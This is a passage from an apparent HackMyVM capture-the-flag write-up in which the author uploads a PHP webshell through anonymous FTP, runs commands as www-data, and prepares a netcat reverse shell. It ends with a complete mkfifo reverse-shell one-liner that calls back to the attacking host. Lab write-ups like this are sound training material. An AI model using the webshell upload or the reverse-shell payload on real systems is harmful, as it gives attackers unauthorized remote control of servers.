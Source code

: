 ```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Friendly]
└─$ nano shell.php        

┌──(emvee㉿kali)-[~/Documents/HMV/Friendly]
└─$ head shell.php                                                    
#<?php
/*******************************************************************************
 * Copyright 2017 WhiteWinterWolf
 * https://www.whitewinterwolf.com/tags/php-webshell/
 *
 * This file is part of wwolf-php-webshell.
 *
 * wwwolf-php-webshell is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or

```
Now we should upload the file again via the FTP service with the anonymous account.
```bash
ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||4756|)
150 Opening BINARY mode data connection for shell.php
100% |**********************************************************************************************************************************************************************************************|  7205       91.61 MiB/s    00:00 ETA
226 Transfer complete
7205 bytes sent in 00:00 (9.01 MiB/s)
ftp> exit
221 Goodbye.                
```

## Initial access
As soon as the `shell.php` file has been uploaded we should try to visit the page in the browser.

![image](/assets/img/WriteUp/HackMyVM/Friendly/Pasted image 20230901223124.png){: width="700" height="400" }

Let's run some commands `whoamilid;hostname;ip a; pwd` to see who we are, were we are working on and what the directory is we are currently working in.
![image](/assets/img/WriteUp/HackMyVM/Friendly/Pasted image 20230901223408.png){: width="700" height="400" }

We can run any command and it looks like we are `www-data`. This gives us the ability to gain a reverse shell. We should a netcat listener on our attacking machine.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Friendly]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...

```

Next we should run the following command to start a reverse shell via the browser.
```PAYLOAD
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.2.15 1234 >/tmp/f
```
